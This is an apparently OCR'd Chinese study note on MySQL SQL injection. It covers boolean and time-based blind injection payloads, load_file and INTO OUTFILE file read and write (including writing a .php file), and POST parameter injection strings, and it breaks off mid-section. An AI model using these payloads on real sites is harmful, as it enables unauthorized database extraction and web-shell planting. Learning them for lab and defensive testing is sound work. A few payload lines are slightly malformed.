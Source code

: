 `like函数`：与regexp相识， like 'r%'     要加百分号

`substr(a,b,c)函数`：   从b位置开始，截取a字符串c位长度

`ascii()函数`：     将某个字符串转化为ascii



------

### 布尔盲注(没有确切返回值)

1.burpsuite 爆破      and left((select database()),1)='s'--+

2.ascii(substr(schema_database(),1,1))>111--+  (错误)

3.ascii(substr(select schema_name from information_schema.schemata limit`1`,1),1,`1`))>11

------



`load_file(' ')` 读取本地文件

`Into outfile  `写文件       

用法：    select 'mysql' into outfile 'test.txt';
文件位置:D:\phpstudy_pro\Extensions\MySQL5.7.26\data 或者是
select 'mysql' into outfile 'D:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\test.php ';



------

### 基于时间的盲注

 `IF(condition,A,B)`如果条件condition为true，则执行命令A，否则执行B

and` sleep(5)`--+  使用延迟的方法判断是否存在注入漏洞

and  if(length(database())=8,1,sleep(5))--+   判断数据库长度

if(ascii(substr((select database()),1,1))>110,1,sleep(5))--+     判断数据库名

------

## POST

burpsuite

注释符`#`

`--+`仅在url中get传参是用



判断数据库长度：

> uname=ain' or if(length(database()),1,sleep(5))#&passwd=admin&submit=Submit
> uname=ain' or length(database())=8#&passwd=admin&submit=Submit

判断数据库名字： 
